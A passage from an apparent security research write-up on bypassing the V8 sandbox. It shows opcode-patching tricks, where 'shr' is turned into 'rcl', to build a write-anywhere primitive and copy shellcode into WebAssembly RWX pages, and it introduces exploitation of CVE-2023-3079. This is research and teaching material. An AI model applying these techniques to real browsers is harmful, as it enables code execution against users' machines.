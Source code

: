 If you recall that WebAssembly pages are RWX, you might notice something interesting: We have a shellcoding CTF!

If we write the address of the `shr rcx, 24` instruction to the address `[rsi+0x77]`, we can subtract 0x18 from somewhere in the opcode. Let's see what instructions we can create with this:

```bash
r3tr0@pwn:~$ rasm2 -d 48c1e918
shr rcx, 0x18
r3tr0@pwn:~$ rasm2 -d 30c1e918 # 0x48-0x18=0x30
xor cl, al
invalid
invalid
r3tr0@pwn:~$ rasm2 -d 48a9e918 # 0xc1-0x18=0xa9
invalid
invalid
invalid
invalid
r3tr0@pwn:~$ rasm2 -d 48c1d118 # 0xe9-0x18=0xd1
rcl rcx, 0x18
```

Great! We found something very useful! We can replace the `shr rcx, 0x18` instruction with `rcl rcx, 0x18`, which simply "rotates" the value. This seems sufficient to bypass the shift and use 64-bit addresses. Thus, we can simply use this function as a "write anywhere" and copy a shellcode to some Wasm function.

# Exploits

Let's test our theory! We can do it in two ways, either using some recent CVE or memory corruption APIs (it's strange that these exist, but their purpose is precisely to test things like the sandbox). We can activate it with the flag `v8_expose_memory_corruption_api=true` in the `args.gn` file. In this paper, we will test both approaches.

## CVE-2023-3079

> Exploit based on: [https://github.com/mistymntncop/CVE-2023-3079](https://github.com/mistymntncop/CVE-2023-3079)

This is a vulnerability where we leak **TheHole** and trigger a *type confusion*. I won't delve into it as it is not the purpose of this paper, but if you want a more detailed view of the bug, please refer to the original exploit [here](https://github.com/mistymntncop/CVE-2023-3079/blob/main/exploit.js).

Let's repeat the same process and see the generated code:

```wasm
(module
  (func $nop (export "nop")
    nop
  )
)
```
